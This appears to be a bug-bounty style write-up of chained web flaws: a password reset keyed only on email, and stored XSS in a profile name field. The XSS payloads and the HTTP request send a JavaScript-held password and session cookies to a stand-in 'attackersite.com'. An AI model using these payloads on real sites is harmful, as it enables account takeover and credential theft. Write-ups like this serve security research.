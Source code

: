 The cookies are only validated if there is no email parameter in the request, otherwise, and the only thing used to identify the user account is email, that means I can change any user's password just with the email

## Chaining Vulnerabilities to Compromise Admin Account

### Stored Cross Site Scripting + Plaintext Password in Javascript

As we know that there is XSS on the profile page and also that the password are stored in javscript, so I created a payload of XSS by which if any user visits my profile page the value of txtpass variable will be sent to my server which means I got the password of the account by which I can simply login into the account

**Payload**

```javascript
<script>
var url = 'https://attackersite.com?pass=' + txtpass;
var attack = new XMLHttpRequest();
attack.open("GET", url, true);
attack.send(null);
</script>
```

Here attackersite.com is my website from where I can get password inside my server's log file

**Request to update profile**

```
POST /updateUserinfo HTTP/1.1
Host: example.com
...
Cookies=COOKIES

email=test@test.com&fname=<script>var url = 'https://attackersite.com?pass=' + txtpass;var attack = new XMLHttpRequest();attack.open("GET", url, true);attack.send(null);</script>&lname=Test
```

If any user Visits my profile his/her, I will get their account password

### Stored Cross Site Scripting + Cookie without HTTPOnly & Secure flag

As we know that there is XSS on the profile page and also that the session cookies does not have HttpOnly flag set, same as before I created a payload to send the session cookie to my server


**Payload**

```javascript
<script>
var url = 'https://attackersite.com?cookie=' + document.cookies;
var attack = new XMLHttpRequest();
attack.open("GET", url, true);
attack.send(null);
</script>
```
